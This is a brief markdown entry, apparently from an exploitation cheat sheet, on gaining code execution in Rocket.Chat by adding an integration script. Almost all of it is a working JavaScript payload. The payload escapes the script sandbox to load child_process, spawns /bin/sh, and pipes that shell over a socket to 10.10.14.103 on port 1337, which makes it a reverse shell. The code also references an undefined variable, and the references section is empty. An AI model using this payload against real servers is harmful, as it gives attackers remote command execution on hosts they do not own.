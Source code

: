 # Rocket.Chat - Add an integration script

## Requirements

 - Username and password of an account with rights to access to "Software packages Updates"

## Exploitation

```js
class Script {
  process_incoming_request({ request }) {
    const require = console.log.constructor('return process.mainModule.require')();
    const { execSync } = require('child_process');
    
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    
    client.connect(1337, "10.10.14.103", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    
    return {
      content:{
        text: JSON.stringify(res)
      }
    }
  }
}
```

## References